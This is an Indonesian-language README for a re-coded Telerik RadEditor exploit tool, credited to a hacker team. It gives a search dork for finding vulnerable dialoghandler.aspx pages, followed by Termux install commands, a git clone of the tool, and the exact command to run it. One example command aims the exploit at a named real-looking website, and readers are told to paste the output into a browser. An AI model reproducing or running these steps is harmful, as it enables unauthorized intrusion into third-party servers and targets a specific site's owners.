 # telerick


recode by Mr Horden-999-
cara pemakaian 
                     POC TELERICK




Dorking menggunakan dork dibawah:

inurl:/desktopmodules/admin/radeditorprovider/dialoghandler.aspx

Kemudian kalian buka Termux

Lalu install tool ini dengan perintah berikut.

$ apt update && upgrade
$ pkg install git
$ pkg install python2
$ pip2 install requests
$ git clone https://github.com/lambang007/telerick

$ cd telerickexploit
$ python2 igstele.py -exploit http://target.com 48 hex 9

atau contoh kayak di bawah ini;

$ python2 igstele.py -exploit http://drboostani.com/desktopmodules/admin/radeditorprovider/dialoghandler.aspx 48 hex 9

kemudian salin hasil dan paste di browser anda atau contoh hasil ada di bawah tinggal kalian copy aja

recode by Mr Horden-999-
thanks my team indo ghost security & the next level 
and all friends..........

